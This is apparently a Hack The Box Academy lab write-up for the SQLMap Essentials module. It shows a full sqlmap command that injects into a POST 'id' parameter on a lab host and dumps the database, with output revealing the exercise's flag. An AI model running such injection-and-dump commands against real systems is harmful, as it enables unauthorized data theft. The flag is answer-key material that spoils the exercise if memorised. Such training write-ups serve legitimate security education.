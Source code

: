 # [SQLMap Essentials](https://academy.hackthebox.com/module/details/58)

## Exercise - Running SQLMap on an HTTP Request

### Questions

#### Question #01

**Question**

 What's the contents of table `flag2`? (Case #2)

![Firefox - Case2 POST Parameter (id)](./assets/screenshots/sqlmap_essentials_firefox_case2_post_parameter_id.png)

```javascript
--batch --dump
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://83.136.250.20:40656/case2.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://83.136.250.20:40656/case2.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://83.136.250.20:40656' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --data-raw 'id=1*' --batch --dump

[SNIP]

[04:58:59] [INFO] table 'testdb.users' dumped to CSV file '/home/htb-ac-1461567/.local/share/sqlmap/output/83.136.250.20/dump/testdb/users.csv'
[04:58:59] [INFO] fetching columns for table 'flag2' in database 'testdb'
[04:58:59] [INFO] fetching entries for table 'flag2' in database 'testdb'
Database: testdb
Table: flag2
[1 entry]
+----+----------------------------------------+
| id | content                                |
+----+----------------------------------------+
| 1  | HTB{700_much_c0n6r475_0n_p057_r3qu357} |
```